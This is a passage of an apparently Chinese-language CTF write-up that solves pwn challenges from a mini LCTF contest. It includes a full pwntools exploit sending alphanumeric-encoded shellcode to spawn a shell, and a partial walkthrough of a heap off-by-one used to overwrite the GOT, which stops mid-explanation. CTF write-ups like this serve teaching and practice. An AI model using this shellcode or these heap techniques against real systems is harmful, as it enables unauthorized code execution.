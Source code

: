 ![13.PNG](https://i.loli.net/2020/05/18/5hCmNwXHog4EMkU.png)

在IDA中打开，功能实现都在main函数中：

![14.png](https://i.loli.net/2020/05/18/chm8M4Da9vt1nXi.png)

注意到第31行v8(xxx,xxx)将v8当作一个函数调用，汇编代码就是将两个参数入栈，再jmp到v8这个指针所指向的地址。往上看，发现我们可以控制v8指向地址的数据，那么输入一个shellcode就能获取shell了。关键在于这个if(!isalnum)的绕过。因此，我们需要发送的shellcode只能包含字母和数字。
一开始查找工具的时候，发现github上的一个工具shellcode_encoder。但是这个工具生成的shellcode的字符范围是包含所有可打印字符的，不符合要求。第二天的时候，又找到一个工具ALPHA3
具体使用方式见该[博客](http://https://www.jianshu.com/p/8ae8c055e35c "博客")
利用python ./ALPHA3.py x64 ascii mixedcase rax —input=”shellcode.bin” >
out.bin将我们之前生成的普通x64shellcode.bin做转换，得到纯字母数字的shellcode。接下来简单的进行发送就好了。
具体exp如下：
```python
#encoding:utf-8
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
shellcode = asm(shellcraft.sh()) #构造目标主机的shellcode

fd = open('shellcode.bin','wb')
fd.write(shellcode)
pause()

sh = remote('pwn.challenge.mini.lctf.online', 10010)
sh.recvuntil('> ')
alpha_shellcode = "Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t" #将alpha3转换后的shellcode复制到这里
sh.send(alpha_shellcode)
sh.interactive()
```
### 0x13 noleak
一道堆的题。可以改写got表。程序大概就是一个根据用户指定的输入长度来获取数据，最多保存10条数据。在0x6020C0处有一个char ptr[80]，可以看作是一个指针数组char* ptr[10]。每一条数据都保存相应指针所指向的堆中。
具体功能：1.create(size,content) 依据输入的大小，获取content，中途遇到回车会停止
2.edit(index,size,content)依据输入的大小，获取content，改写索引为index的数据，当size大于原来的size时，以原来的size为准
3.delete(index) 删除索引为index的数据，并将指针指向0
这个程序对输入都有比较严格的判断，看了源码蛮久的，才发现漏洞出在edit中，具体代码如下：

![15.PNG](https://i.loli.net/2020/05/18/UfRBuFE8jKsQtzc.png)

这里数据长度的检测是通过strlen()实现的。当我们利用chunk的空间复用，在创建第一个chunk时填满整个堆的空间，再紧接着创建第二个chunk，这时候我们使用strlen返回的长度会是原来的长度+1。示意图如下：
0x0000000000000000 0x0000000000000021 #chunk0 (malloc申请size=24)
0x6161616161616161 0x6161616161616161
0x6161616161616161 0x0000000000000021 #chunk1
0x0000000000000062 0x0000000000000000
虽然我们申请的空间大小为24，但是通过strlen获取的长度为25（包含了一个字节的chunk1的块大小）
通过这个漏洞，我们可以改写chunk1的块大小，进而进行进一步的攻击。大致思路就是先申请三块chunk,通过chunk0更改chunk1的大小，更改后的chunk_size = chunk1_size+chunk2_size
然后将chunk1和chunk2都free掉，他们会进入fastbins(大概？)接下来再申请一个和chunk_size相同大小的块,我们就可以利用这个chunk来控制在fastbins中的chunk2的fd域，使得我们之后申请的块的地址可控。fastbins中的块需要通过大小的检测，所以我们需要找到合适的地址作为目标块。鉴于我们可以修改prt[0]的指向进而通过edit(0,8,content)修改got表,所以我们在ptr[0]的上方寻找合适的块。
可以找到0x6020b0+5处数据为0x000000000000007f符合一个chunk头的格式，且表示的chunk大小为0x70
根据这个我们可以反推出之前我们需要申请的块的大小。
